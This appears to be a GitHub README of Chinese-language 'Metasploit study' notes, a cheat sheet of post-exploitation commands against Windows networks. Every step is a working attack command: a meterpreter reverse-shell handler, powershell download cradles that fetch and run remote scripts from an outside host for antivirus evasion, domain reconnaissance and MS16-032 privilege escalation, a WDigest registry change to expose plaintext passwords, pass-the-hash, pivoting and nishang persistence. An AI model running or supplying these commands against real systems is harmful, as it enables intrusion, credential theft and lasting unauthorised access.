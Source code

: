 # Metasploit-Study
心得

1、启动console
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost 121.43.xx.xx;set lport 5555;exploit -j"


2、过杀软
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/https.ps1')


3、域探测
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/PowerView.ps1');Invoke-UserHunter"


4、提权
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.3.101/doc/16-032.ps1');Invoke-MS16-032 -Application C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -Commandline ' -nop -exec bypass .\1.ps1'"


5、下载文件
powershell (new-object System.Net.WebClient).DownloadFile('http:/http://121.43.xx.xx:8888/wce.exe,‘wce.exe')


6、抓明文（windows 2008 R2 后需修改注册表项 use post/windows/manage/wdigest_caching）或者 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1


7、hash传递登录
 use exploit/windows/smb/psexec_psh
 
 
8、添加路由
post/multi/manage/autoroute


9、proxychains socks 代理
use auxiliary/server/socks4a


10、持久化nishang
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/Add-Persistence.ps1');Add-Persistence -PayloadURL http://121.43.163.43:8888/https5555.ps1"
